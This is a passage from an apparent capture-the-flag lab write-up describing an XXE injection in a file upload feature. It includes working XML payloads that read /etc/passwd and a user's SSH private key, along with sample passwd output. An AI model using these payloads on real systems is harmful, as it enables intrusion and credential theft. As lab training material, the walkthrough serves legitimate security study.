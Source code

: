 As can be seen in the response, we now have confirmation that this upload functionality is vulnerable to an XXE injection.

## Initial Foothold <a id="ba18"></a>

Let’s take this exploit a step further and retrieve the content of the _/etc/passwd_ file.

```text
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

![](../images/max/1362/1*HQU-9JPx83QcvKLpeTWqMg.png)

Filter the result on users that have a /bin/bash shell assigned to them.

```text
root:x:0:0:root:/root:/bin/bash
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
```

The _user.txt_ file is probably in the _roosa_ home directory. Since SSH is the only other port that is open, let’s check if _roosa_ has an SSH private key in her home directory.

```text
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/roosa/.ssh/id_rsa'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```
